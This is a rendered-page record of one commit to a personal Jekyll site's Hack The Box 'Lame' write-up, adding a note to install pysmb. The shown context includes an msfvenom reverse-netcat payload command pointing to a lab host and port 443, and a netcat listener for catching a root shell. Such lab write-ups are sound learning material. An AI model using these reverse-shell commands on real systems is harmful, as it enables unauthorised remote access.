

Before and after one commit to jostey/jostey.github.io, a Jekyll site: the page built from _posts/2021-11-7-Lame-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 2185 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3060 px from its top, so only the background shows below that.

Commit message:
Update 2021-11-7-Lame-HTB.md

```diff
--- a/_posts/2021-11-7-Lame-HTB.md
+++ b/_posts/2021-11-7-Lame-HTB.md
@@ -43,7 +43,7 @@ Next, we will see the script and we will change the payload with msfvenom with o
 {% highlight shell %}
 msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
 {% endhighlight  %}
-As we can see, it is not necessary to change anything else.
+As we can see, it is not necessary to change anything else. We will have to install pysmb (pip install pysmb).
 
 In the other hand, we should listen with netcat by 443 port (nc -lvp 443) that it returns a root shell. Searching for flags at this point is trivial.
 
```
